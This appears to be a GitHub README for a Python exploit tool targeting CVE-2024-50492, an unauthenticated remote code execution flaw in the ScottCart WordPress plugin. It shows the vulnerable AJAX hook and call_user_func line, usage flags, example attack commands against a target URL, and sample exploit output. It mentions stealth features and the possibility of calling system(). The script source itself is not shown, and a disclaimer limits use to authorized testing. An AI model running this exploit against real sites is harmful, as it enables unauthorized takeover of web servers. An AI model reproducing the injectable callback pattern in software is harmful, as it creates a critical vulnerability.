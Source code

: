 
# 🚨 CVE-2024-50492 - ScottCart <= 1.1 RCE Exploit

> 🔥 Exploit Script for ScottCart <= 1.1 - Unauthenticated Remote Code Execution  
> 🧑‍💻 By Nxploit – *Khaled Alenazi*

---

## 📌 Description

The **ScottCart** plugin for WordPress (versions ≤ 1.1) is vulnerable to **Remote Code Execution (RCE)**.  
This allows **unauthenticated attackers** to execute arbitrary PHP functions on the server through a vulnerable AJAX endpoint.

- **Plugin**: ScottCart ≤ 1.1  
- **Vulnerability**: Unauthenticated Function Injection → RCE  
- **CVE**: CVE-2024-50492  
- **CVSS Score**: **9.8 - Critical**

---

## 🧠 How it works

The plugin registers an unprotected AJAX action:
```php
add_action('wp_ajax_nopriv_scottcart_load_function', 'scottcart_load_function_callback');
```

Which executes:
```php
call_user_func($_POST['function']);
```

Allowing attackers to call **any existing PHP function**, like:
- `phpinfo()`
- `scottcart_get_the_user_ip()`
- `system()` ← if extended in modified environments

---

## 🚀 Exploit Features

- ✅ Automatically sends crafted payload to trigger the vulnerable endpoint
- ✅ Allows function override via argument
- ✅ Default payload: `phpinfo()` for PoC
- ✅ Saves output to timestamped file (e.g., `results_2025-03-26_14-33-01.txt`)
- ✅ Custom `User-Agent`, error handling, and SSL ignore for stealth

---

## 🖥️ Usage

```bash
usage: CVE-2024-50492.py [-h] -u URL [-p PAYLOAD]

ScottCart <= 1.1 - Unauthenticated Remote Code Execution
By Nxploit Khaled Alenazi.

options:
  -h, --help            Show this help message and exit
  -u URL, --url URL     Target base URL (e.g., http://192.168.100.74:888/wordpress)
  -p PAYLOAD, --payload PAYLOAD
                        Function to call (default: phpinfo)
```

---

## 💡 Examples

### 🔍 Default behavior (PoC with `phpinfo()`):
```bash
python3 CVE-2024-50492.py -u http://192.168.100.74:888/wordpress
```

### 🔎 Call internal plugin function:
```bash
python3 CVE-2024-50492.py -u http://192.168.100.74:888/wordpress -p scottcart_get_the_user_ip
```

---

## 🧾 Output Example

```
[+] Target URL: http://192.168.100.74:888/wordpress
[+] Payload Function: phpinfo
[*] Launching exploit...
[+] Sending payload: function=phpinfo
[+] Exploit successful! Output:

PHP Version => 8.1.12
...
```

📁 And saved in: `results_2025-03-26_14-33-01.txt`

---

## 🛡️ Disclaimer

This tool is for **educational and authorized testing** purposes only.  
Do **not** use against systems you do not own or have explicit permission to test.

---

## 💬 Credits

- 💻 Exploit by: [Nxploit – Khaled Alenazi](https://github.com/Nxploited)
- 🛡️ CVE ID: CVE-2024-50492
